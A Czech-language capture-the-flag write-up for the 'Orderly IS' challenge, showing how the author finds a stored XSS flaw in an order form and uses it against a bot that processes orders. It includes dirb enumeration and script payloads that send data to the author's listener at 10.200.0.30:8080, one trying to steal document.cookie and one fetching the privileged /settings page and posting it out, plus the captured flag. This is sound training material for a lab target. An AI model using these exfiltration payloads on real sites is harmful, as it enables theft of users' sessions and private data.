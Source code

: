 # Orderly IS (15)

## Zadání

Hi, packet inspector,

do you want to order something? Use our Orderly information system, it is intuitive, fast, reliable and secure! At least that's what we claim in the TV ad. In last few hours it began to act weirdly, but its administrator is on vacation away from civilization (and connectivity).

You will have to break into the [Orderly information system](http://orderly.mysterious-delivery.tcc:23000/) and check its configuration.

May the Packet be with you!

## Nápovědy (Hints)

1\. Use VPN to get access to the server.

## Řešení

Na zobrazené stránce ze zadání jsou v menu položky `Login`, kam se po otevření má napsat heslo, které neznáme a menu `Add`, kam se mohou zadat "data k objednávce".

Zkusíme projet skryté stránky

`dirb http://orderly.mysterious-delivery.tcc:23000`

Byly nalezeny další stránky, které by nás mohly zajímat

```text
==> DIRECTORY: http://orderly.mysterious-delivery.tcc:23000/javascript/
+ http://orderly.mysterious-delivery.tcc:23000/login (CODE:200|SIZE:1846)
+ http://orderly.mysterious-delivery.tcc:23000/logout (CODE:302|SIZE:199)
+ http://orderly.mysterious-delivery.tcc:23000/server-status (CODE:403|SIZE:299)
+ http://orderly.mysterious-delivery.tcc:23000/settings (CODE:302|SIZE:199)
```

Ve výpisu je i stránka `http://orderly.mysterious-delivery.tcc:23000/settings`. Z ní jsme ale okamžitě přesměrováni na stránku `http://orderly.mysterious-delivery.tcc:23000/login`. V ostatních úlohách ale tato stránka obsahovala hledaný flag.

Při zadání `!@#$%^&*()_+{}[]'"` odpoví server je

`Order placed into queue`

Zkusíme něco jiného

```html
<script>
  alert(123)
</script>`
```

Po odeslání se zobrazí v prohlížeči zpráva `123`. Předpokládejme, že na "druhé straně" sedí někdo / něco, co objednávky zpracovává a tomu by se měla tato zpráva zobrazit také. Otestujeme, že jsou objednávky zpracovány tím, že ve skriptu zkusíme načíst stránku z VPN IP našeho serveru.

Spustíme jednoduchý HTTP server, který bude vypisovat přijatá data. Kód je v [server.py](server.py).

`python3 server.py`

a zadáme objednávku

```html
<img src='http://10.200.0.30:8080/test'>
```

Ve výpisu testovacího HTTP serveru se kromě volání z našeho prohlížeče za pár sekund objeví o volání z prohlížeče zpracovávající objednávky.

```text
INFO:root:GET request,
Path: /test
Headers:
Host: 10.200.0.30:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.99.0.131:23000/
Connection: keep-alive



10.99.0.3 - - [16/Oct/2022 20:15:14] "GET /test HTTP/1.1" 200 -
```

Bude se tedy zřejmě jednat o útok pomocí XSS (Cross-site scripting), kdy se v prohlížeči oběti spouští kód útočníka.

---
Zkusíme získat nějaké informace z klienta pomocí skriptu.

```html
<script>
  fetch('http://10.200.0.30:8080/',{method: 'POST', body: "QWEASD"});
</script>
```

Funguje, data nám došla.

```text
INFO:root:POST request,
Path: /
Headers:
Host: 10.200.0.30:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.99.0.131:23000/
Content-Type: text/plain;charset=UTF-8
Origin: http://10.99.0.131:23000
Content-Length: 6
Connection: keep-alive



Body:
QWEASD

10.99.0.2 - - [16/Oct/2022 20:18:06] "POST / HTTP/1.1" 200 -
```

---
Zkusíme získat cookie přihlášeného uživatele

```html
<script>
  fetch('http://10.200.0.30:8080/',{method: 'POST', body: document.cookie});
</script>
```

Tělo odpovědi je ale prázdné

```text

Body:

```

To je proto, že je u session cookie správně nastaven příznak `HttpOnly`, takže není přístupné ze skriptu.

Zkusíme tedy nechat počítač oběti načíst stránku `settings` a pošleme si ji v těle POST požadavku.

```html
<script>
  fetch('/settings')
    .then(response => response.text())
    .then(text => fetch('http://10.200.0.30:8080/',{method: 'POST', body: text}));
</script>
```

Tento postup už funguje, protož počítač zpracovávající objednávky je přihlášený s vyššími oprávněními a má přístup do stránky `settings`.

V odpovědi dostaneme hledaný flag.

```html
<h1>Settings</h1>
<span id="flag">FLAG{9QVE-0miw-qnwm-ER9m}
</span>
```

## Flag

`FLAG{9QVE-0miw-qnwm-ER9m}`
